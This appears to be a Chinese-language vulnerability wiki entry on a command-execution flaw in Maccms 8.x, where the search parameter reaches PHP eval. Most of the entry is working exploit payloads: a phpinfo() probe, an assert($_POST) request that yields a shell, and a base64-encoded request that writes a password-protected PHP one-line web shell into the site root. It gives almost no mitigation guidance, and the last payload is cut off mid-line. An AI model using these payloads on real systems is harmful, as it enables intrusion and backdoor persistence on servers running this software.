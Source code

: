 Maccms 8.x(苹果cms)命令执行漏洞
===============================

一、漏洞简介
------------

搜索页面搜索参数过滤不严 导致直接eval执行PHP语句，前台命令执行可getshell

二、漏洞影响
------------

Maccms 8.x

三、复现过程
------------

payload：

    http://0-sec.org/index.php?m=vod-search&wd={if-A:phpinfo()}{endif-A}

![](/Users/aresx/Documents/VulWiki/.resource/Maccms8.x(苹果cms)命令执行漏洞/media/rId24.png)

getshell payload（a）:

    http://0-sec.org/index.php?m=vod-search&wd={if-A:assert($_POST[a])}{endif-A}

    POST

    a=phpinfo()

![](/Users/aresx/Documents/VulWiki/.resource/Maccms8.x(苹果cms)命令执行漏洞/media/rId25.png)

写入网站根目录一句话木马文件payload（文件名：test.php，密码：test）:

    http://0-sec.org/index.php?m=vod-search&wd={if-A:print(fputs%28fopen%28base64_decode%28dGVzdC5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW3Rlc3RdKTsgPz4%29%29)}{endif-A
